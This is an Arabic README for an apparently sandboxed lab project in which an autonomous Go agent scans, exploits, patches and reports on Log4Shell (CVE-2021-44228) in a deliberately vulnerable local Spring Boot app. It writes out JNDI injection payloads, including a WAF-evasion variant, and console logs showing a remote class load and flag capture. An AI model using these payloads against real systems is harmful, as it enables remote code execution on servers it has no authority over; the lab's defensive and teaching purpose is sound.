



<p align="center">
  
</p>

<h1 align="center">🤖 AUTO AUDIT</h1>

<p align="center">
  <b>مختبر تجريبي معزول لوكيل تنفيذ تفاعلي ذاتي التشغيل (Go/Java)</b>
</p>

<p align="center">
  <a href="README.md"><b>Русский 🇷🇺</b></a> • <a href="README.en.md"><b>English 🇬🇧</b></a> • <a href="README.zh.md"><b>中文 🇨🇳</b></a> • <a href="README.es.md"><b>Español 🇪🇸</b></a> • <a href="README.de.md"><b>Deutsch 🇩🇪</b></a> • <a href="README.it.md"><b>Italiano 🇮🇹</b></a> • <a href="README.ar.md"><b>العربية 🇸🇦</b></a>
</p>

<p align="center">
  <a href="https://golang.org"></a>
  <a href="https://openjdk.org"></a>
  <a href="https://maven.apache.org"></a>
  <a href="LICENSE"></a>
  <a href="https://github.com/C00LN3T/Log4ShellAuditor/graphs/traffic"></a>
  <a href="https://github.com/C00LN3T/Log4ShellAuditor/graphs/traffic"></a>
</p>

---

## 🧭 نظرة عامة

> [!NOTE]
> **AUTO AUDIT** هو نظام برمجيات يستعرض دورة **مغلقة ذاتية التشغيل بالكامل بنسبة 100% (الإدراك-التفكير-العمل / Sense-Think-Act)** لاكتشاف الثغرات الأمنية، والتحقق من صحتها، واستغلالها، والمعالجة التلقائية (الشفاء الذاتي)، وإعداد تقارير الامتثال لثغرة **Log4Shell** الحرجة (**CVE-2021-44228**).
>
> تقوم البيئة التجريبية (Sandbox) بتشغيل تطبيق ويب محلي مستهدف مبني على **Java Spring Boot**، ومستمع خلفي مدمج **LDAP TCP Callback Listener**، ونواة وكيل إدراكية بلغة **Go** تقوم بتنسيق الإجراءات في بيئة قابلة للملاحظة جزئياً (*عملية اتخاذ القرار لماركوف القابلة للملاحظة جزئياً — POMDP*).




---

## 🛠️ البنية التقنية والمكونات

تم تطوير الهيكل البرمجي للوكيل باتباع الهندسة السداسية (المنافذ والمحولات - Ports and Adapters)، ومبادئ SOLID، ومنهجية التطوير الموجه بالاختبار (TDD):

* 📂 **[cmd/agent/main.go](cmd/agent/main.go)** — نقطة الدخول (Entrypoint). يدير دورات حياة الخدمات الخلفية وينسق حلقة الوكيل الرئيسية.
* 📂 **`internal/`** — منطق العمل الأساسي للمسار الإدراكي:
  * 🧠 **[agent/agent.go](internal/agent/agent.go)** — المحرك الإدراكي. يقوم بتنفيذ سياسة اتخاذ القرار وحلقة الوكيل.
  * 💾 **[core/model.go](internal/core/model.go)** — قاعدة معرفة `KnowledgeBase` آمنة للخيوط (LTM) تعتمد على `sync.RWMutex`.
  * 🔌 **[core/effector.go](internal/core/effector.go)** — واجهة `Tool` للمؤثرات (effectors).
  * ⚙️ **[effectors/](internal/effectors/)** — سجل المؤثرات متعددة الأشكال (الأدوات):
    * 🔍 `ToolPortScanner` — الاستطلاع وفحص منافذ الشبكة.
    * 🌐 `ToolDiscovery` — رسم خرائط معلمات تطبيق الويب وتحليل متجهات الإدخال (`X-Api-Version`).
    * 🔬 `ToolPayloadGenerator` — تركيب متجهات توقيع JNDI.
    * 🚀 `ToolProber` — التحقق من الثغرات الأمنية خارج النطاق (OOB).
    * 🛡️ `ToolSemanticFuzzer` — طفرات التشويش (تجاوز جدار حماية التطبيقات اللاسلكية WAF Evasion) عبر عمليات البحث المتداخلة.
    * 🩹 `ToolRemediator` — الترقيع السريع التلقائي (الشفاء الذاتي).
    * 📄 `ToolReporter` — إنشاء تقرير التدقيق الأمني.
* 📂 **`pkg/`** — الوحدات والأدوات المساعدة المشتركة:
  * 📡 **[oob/](pkg/oob/)** — خوادم LDAP وHTTP خارج النطاق (Out-of-band).
  * ☕ **[jvm/](pkg/jvm/)** — يدير عملية الهدف المحاكي المترجمة محلياً في Java.
* 📂 **[deployments/](deployments/)** — يحتوي على ملفات تكوين Docker وCompose.
* 📂 **[test/vulnerable-app/](test/vulnerable-app/)** — خدمة Java Spring Boot المصغرة المستهدفة والضعيفة أمنياً.

---

## 🎯 الجهاز الرياضي وتوصيف الحلقة الإدراكية (حلقة التفكير والعمل / Think-Act Loop)

تتم صياغة عملية اتخاذ القرار لدى الوكيل رسمياً كـ **عملية اتخاذ القرار لماركوف القابلة للملاحظة جزئياً (POMDP)**، والممثلة بالخلية $\langle S, A, T, R, \Omega, O, \gamma \rangle$:
* $S$ هي مساحة الحالة المنفصلة للبيئة المستهدفة (إمكانية الوصول للمنافذ، ورسم خرائط معلمات الإدخال، ووجود جدار حماية التطبيقات اللاسلكية WAF، وحالة الاختراق، وتطبيق الترقيع، وحالة وثائق الامتثال).
* $A$ هي مساحة عمل المؤثرات (تنفيذ الأدوات: `port_scanner` و `discovery` و `payload_generator` و `prober` و `semantic_fuzzer` و `remediator` و `reporter` و `stop`).
* $\Omega$ هي مساحة الملاحظة (رموز حالة HTTP المستلمة، واستدعاءات OOB TCP، وأحداث نظام الملفات).
* $O(o \mid s', a)$ هي دالة الملاحظة، وتحدد احتمالية تلقي الملاحظة $o \in \Omega$ بعد تنفيذ الإجراء $a$.

### 1. تمثيل حالة الاعتقاد (Belief State)
لا يملك الوكيل وصولاً مباشراً إلى الحالة المخفية $s \in S$ ويعمل على حالة الاعتقاد $b(s)$ — وهي توزيع احتمالي على $S$، يتم صيانتها وتحديثها ديناميكياً داخل قاعدة المعرفة `KnowledgeBase` الآمنة للخيوط:
* $b(S_{recon}) \in \{0, 1\}$ — حالة استطلاع الشبكة (مفتوح/مغلق). مربوطة بـ `ToolPerformance["port_scanner"]`.
* $b(S_{discovery}) \in \{0, 1\}$ — حالة رسم خرائط متجهات الإدخال (ما إذا تم العثور على مواقع المعلمات). مربوطة بـ `len(DiscoveryVectors) > 0`.
* $b(S_{payload}) \in \{0, 1\}$ — جاهزية توقيع الاستغلال. مربوطة بـ `len(CustomPayloads) > 0`.
* $b(S_{exploit}) \in \{0, 1\}$ — حالة اختراق الهدف (التقاط الغنائم/الرموز). مربوطة بـ `len(Loot) > 0`.
* $b(S_{patch}) \in \{0, 1\}$ — حالة تطبيق الترقيع السريع. مربوطة بـ `PatchApplied`.
* $b(S_{verify}) \in \{0, 1\}$ — حالة التحقق من المعالجة. مربوطة بـ `PatchVerified`.
* $b(S_{report}) \in \{0, 1\}$ — حالة وثائق الامتثال. مربوطة بـ `ReportGenerated`.

### 2. تخطيط السياسة (Policy Mapping)
تنفذ حلقة القرار الأساسية للوكيل `Think()` سياسة حتمية $\pi: B \to A$ تقوم بتعيين حالة الاعتقاد الحالية $b$ إلى إجراء المؤثر الأمثل $a \in A$.

### 3. التعلم التكيفي ومنفعة المؤثر (Adaptive Learning & Effector Utility)
لكل أداة $a \in A$، يجمع الوكيل إحصاءات التنفيذ في `ToolStats` ويحسب مقياس المنفعة (درجة الكفاءة):

$$\text{EfficiencyScore}(a) = \frac{SuccessCount_a}{UsageCount_a}$$

ويتم استخدام ذلك للتوجيه التكيفي: إذا فشلت محاولة الاستغلال الأولية (`prober`) (مما يعني أن $\text{EfficiencyScore}(\text{prober}) = 0$)، فإن الوكيل يستنتج وجود تصفية بواسطة جدار حماية التطبيقات (WAF)، ويغير استراتيجيته لتنشيط `semantic_fuzzer` لتشويش الحمولة، ثم يعيد محاولة الاستغلال.

### دورة حياة التنفيذ خطوة بخطوة:

| الخطوة | الأداة المحددة | الإجراء والعملية الأساسية | التغييرات في حالة الاعتقاد |
| :--- | :--- | :--- | :--- |
| **1** | `port_scanner` | فحص مقبس TCP عند المنفذ المستهدف `:8080`. | تم اكتشاف منفذ HTTP ($b(S_{recon}) = 1$). |
| **2** | `discovery` | تحليل الترويسات (Headers) وبنية الصفحة. | تم تحديد المعلمة `X-Api-Version` كنقطة دخول ($b(S_{discovery}) = 1$). |
| **3** | `payload_generator` | بناء توقيع استغلال JNDI الخام. | تم تحديث الحمولات بـ `\${jndi:ldap://127.0.0.1:1389/Exploit\}` ($b(S_{payload}) = 1$). |
| **4** | `prober` | محاولة الاستغلال. يقوم الوكيل بإرسال الحمولة. | تم الحظر بواسطة جدار حماية التطبيقات (WAF) الخاص بالهدف. $\text{EfficiencyScore}(\text{prober}) = 0$. |
| **5** | `semantic_fuzzer` | طفرة التوقيع عبر عمليات البحث المتداخلة. | تم توليد حمولة مشوشة ($b(S_{payload}) = 1$، تجاوز جدار الحماية WAF). |
| **6** | `prober` | تسليم حمولة الاستغلال بتوقيع متحول. | يلتقط خادم LDAP توجيه TCP الوارد. تم تأكيد ثغرة RCE ($b(S_{exploit}) = 1$). |
| **7** | `remediator` | معالجة تلقائية. ترقيع سريع لتكوين التطبيق المستهدف. | إعادة تهيئة خصائص JVM بـ `-Dlog4j2.formatMsgNoLookups=true` ($b(S_{patch}) = 1$). |
| **8** | `prober` | التحقق (إعادة الاختبار). | يراقب خادم LDAP منفذ الاستدعاء. غياب الاتصال $\rightarrow$ $b(S_{verify}) = 1$. |
| **9** | `reporter` | كتابة تقرير الامتثال. | تم إنشاء تقرير التدقيق في `reports/cve_2021_44228_report.md` ($b(S_{report}) = 1$). |
| **10**| `stop` | الإنهاء. | اكتملت الحلقة. |

---

## 📊 المخططات الانسيابية للخوارزمية

### 1. المخطط الانسيابي لدورة حياة الوكيل العامة (حلقة الإدراك-التفكير-العمل / Sense-Think-Act Loop)
يوضح هذا المخطط دورة حياة التشغيل المستمرة للوكيل، بدءاً من التهيئة وحتى تجميع تقرير الامتثال وإيقاف تشغيل الجلسة.



### 2. المخطط الانسيابي لخوارزمية نواة اتخاذ القرار (Think)
يوضح هذا المخطط منطق اتخاذ القرار الدقيق الذي تنفذه الدالة `Think()` في كل تكرار للحلقة، استناداً إلى حالة الاعتقاد الحالية:



---

## 📦 مواصفات تطبيق Java المصاب بالثغرة

التطبيق المستهدف الموجود تحت المسار `test/vulnerable-app/` هو وحدة تحكم REST تعمل بواسطة **Spring Boot 2.7.18** مع تبعية **Apache Log4j2** القديمة:

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version> <!-- Vulnerable version supporting JNDI lookup -->
</dependency>
```

تقوم نقطة النهاية المصابة بالثغرة بتسجيل ترويسات HTTP دون تطهير (Sanitization):
```java
logger.info("[AUDIT] API Version header logged: {}", apiVersion);
```

عند استقبال `${jndi:ldap://...}`، تبدأ نواة log4j عملية تحليل LDAP إلى منفذ المستمع `1389`.

---

## 🚀 الإعداد والتشغيل

يدعم مختبر المحاكاة وضعين للنشر: التشغيل المحلي مباشرة على الجهاز المضيف (الخيار أ) أو التشغيل داخل حاويات بالكامل في بيئة شبكة معزولة باستخدام Docker Compose (الخيار ب).

### الخيار أ. التشغيل المحلي على الجهاز المضيف

#### المتطلبات الأساسية
* **JDK 17+** (التحقق عبر `java -version`)
* **Maven 3.8+** (التحقق عبر `mvn -version`)
* **Go 1.21+** (التحقق عبر `go version`)

#### 1. بناء الخدمة المصغرة المستهدفة Java
ترجمة تطبيق Java المستهدف إلى ملف JAR تنفيذي شامل (fat JAR):
```bash
cd test/vulnerable-app
mvn clean package
cd ../..
```
*تأكد من إنشاء الملف `test/vulnerable-app/target/vulnerable-app-simple-1.0.0.jar`.*

#### 2. بناء حمولة الاستغلال
ترجمة فئة Java التي يخدمها خادم ويب HTTP:
```bash
javac internal/payload/Exploit.java
```

#### 3. بناء وتشغيل البيئة التجريبية ذاتية التشغيل
تشغيل حلقة Go الرئيسية باستخدام التفسير الفوري (interpretation on-the-fly):
```bash
go run ./cmd/agent
```

أو ترجمتها إلى ملف ثنائي تنفيذي مستقل:
```bash
go build -o test_agent ./cmd/agent
./test_agent
```

---

### الخيار ب. التشغيل في بيئة تجريبية معزولة داخل حاوية (Docker Compose)

> [!TIP]
> لا تتطلب هذه الطريقة تثبيت Go أو Java أو Maven على جهازك المضيف. يتم بناء وتشغيل إعداد المختبر بالكامل تلقائياً داخل شبكة افتراضية معزولة مجزأة عند النطاق الفرعي `172.20.0.0/16`.


#### المتطلبات الأساسية
* تثبيت **Docker** والمكون الإضافي **Docker Compose** (التحقق عبر `docker compose version`).

#### 1. تشغيل المختبر
بناء صور الحاويات وتشغيل الخدمات بأمر واحد من المجلد الرئيسي للمشروع:
```bash
docker compose -f deployments/docker-compose.yml up --build
```

#### 2. دورة الحياة والعمليات الداخلية:
* يقوم `vulnerable-app` بترجمة تطبيق Spring Boot، وربط المجلدات الداخلية، وكتابة العلم السري في `/var/lib/secret/flag.txt`، وخدمة نقاط النهاية على المنفذ `:8080`.
* يقوم `reflective-agent` ببناء مرحلة مترجم Go، وترجمة `Exploit.java`، وتشغيل مستمعي LDAP/HTTP، وإطلاق الحلقة الإدراكية.
* يتم ربط المجلد المحلي `reports/` الموجود على نظام ملفات جهازك المضيف بحاوية الوكيل — ويتم تخزين تقرير امتثال GOST النهائي تلقائياً في المجلد المضيف لديك في المسار `reports/cve_2021_44228_report.md`.

#### 3. إيقاف البيئة التجريبية
لتنظيف بيئات الحاويات وتحرير إعدادات الشبكة، قم بتشغيل:
```bash
docker compose -f deployments/docker-compose.yml down
```

---

## 📊 عينة من مخرجات وحدة التحكم

```text
=== ДЕМОНСТРАЦИОННЫЙ СТЕНД РЕАКТИВНОГО АГЕНТА (JAVA SPRING TARGET) ===
[*] Запуск скомпилированного уязвимого Java Spring приложения локально...
[*] Ожидание инициализации веб-контекста Spring (3.5 сек)...
[*] Инициализация агента-исполнителя для цели: http://localhost:8080
================================================================
[ВЫВОД] Выбран инструмент: 'port_scanner' (Текущая фаза: Reconnaissance)
[ЭФФЕКТОР:port_scanner] Сканирование порта localhost:8080...
[НАБЛЮДЕНИЕ] OBSERVATION: Обнаружен открытый HTTP-порт localhost:8080. Java Spring Web-служба отвечает.

[ВЫВОД] Выбран инструмент: 'discovery' (Текущая фаза: Discovery)
[ЭФФЕКТОР:discovery] Исследование структуры веб-приложения http://localhost:8080...
[НАБЛЮДЕНИЕ] OBSERVATION: Обнаружены потенциальные векторы ввода: GET-параметр '/?input=' и HTTP-заголовок 'X-Api-Version'.

[ВЫВОД] Выбран инструмент: 'payload_generator' (Текущая фаза: Discovery)
[ЭФФЕКТОР:payload_generator] Анализ уязвимостей и синтез сигнатур...
[НАБЛЮДЕНИЕ] OBSERVATION: Сгенерирована сигнатурная нагрузка для CVE-2021-44228: '${jndi:ldap://127.0.0.1:1389/Exploit}'.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Discovery)
[ЭФФЕКТОР:prober] Первичная атака: Отправка нагрузки '${jndi:ldap://127.0.0.1:1389/Exploit}' на http://localhost:8080...
[НАБЛЮДЕНИЕ] FAILURE: Атака не удалась. Уязвимость не эксплуатирована или флаг не перехвачен.

[ВЫВОД] Выбран инструмент: 'semantic_fuzzer' (Текущая фаза: Discovery)
[ЭФФЕКТОР:semantic_fuzzer] Запуск обфускации и семантического фаззинга против WAF...
[НАБЛЮДЕНИЕ] OBSERVATION: Сгенерирован обфусцированный вектор обхода: '${${lower:j}ndi:ldap://127.0.0.1:1389/bypass}'.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Discovery)
[ЭФФЕКТОР:prober] Первичная атака: Отправка нагрузки '${${lower:j}ndi:ldap://127.0.0.1:1389/bypass}' на http://localhost:8080...
[LDAP SERVER] Получен LDAP BindRequest. Отправка BindResponse...
[LDAP SERVER] Получен LDAP SearchRequest. Отправка JNDI Referral...
[HTTP SERVER] Получен запрос на загрузку Exploit.class
[HTTP SERVER] >>> ПЕРЕХВАЧЕН СЕКРЕТНЫЙ ФЛАГ: FLAG{LOCAL_HOST_LOG4SHELL_SECRET_2026} <<<
[НАБЛЮДЕНИЕ] SUCCESS: LDAP Callback получен на порту 1389. RCE отработал. Перехваченный флаг: FLAG{LOCAL_HOST_LOG4SHELL_SECRET_2026}.

[ВЫВОД] Выбран инструмент: 'remediator' (Текущая фаза: Remediation)
[ЭФФЕКТОР:remediator] Анализ причин уязвимости и генерация исправления для http://localhost:8080...
[ЭФФЕКТОР:remediator] Отправка команды применения патча на http://localhost:8080/remediate...
[НАБЛЮДЕНИЕ] REMEDIATION_SUCCESS: Патч применен. На целевое приложение отправлен запрос ремедиации (изменен флаг -Dlog4j2.formatMsgNoLookups=true). JVM успешно переинициализирована.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Verification)
[ЭФФЕКТОР:prober] Верификация патча: Повторная атака уязвимости на http://localhost:8080...
[НАБЛЮДЕНИЕ] VERIFICATION_SUCCESS: Попытка эксплуатации отклонена сервером. Входящий TCP-коллбек на порт 1389 отсутствует. Уязвимость успешно устранена.

[ВЫВОД] Выбран инструмент: 'reporter' (Текущая фаза: Verification)
[ЭФФЕКТОР:reporter] Формирование отчета об уязвимости по стандартам РФ для http://localhost:8080...
[НАБЛЮДЕНИЕ] REPORT_SUCCESS: Отчет успешно сгенерирован и сохранен в файл 'reports/cve_2021_44228_report.md'.

================================================================
[INFO] Жизненный цикл аудита, патчинга и комплаенса завершен.
```

---

## 📜 سياسات الامتثال والأمان
يتوافق تقرير الامتثال الذي تم إنشاؤه في `reports/cve_2021_44228_report.md` مع أطر الأمن السيبراني الرئيسية التالية:
* **GOST R 56939-2016** — حماية المعلومات. تطوير البرمجيات الآمنة.
* متطلبات **القانون الاتحادي رقم 152-FZ** "بشأن البيانات الشخصية".
* **القانون الاتحادي رقم 187-FZ** "بشأن أمن البنية التحتية للمعلومات الحرجة للاتحاد الروسي".

---

## 🛡️ الترخيص
هذا المشروع مرخص بموجب **رخصة MIT**. راجع ملف [LICENSE](LICENSE) لمزيد من التفاصيل.
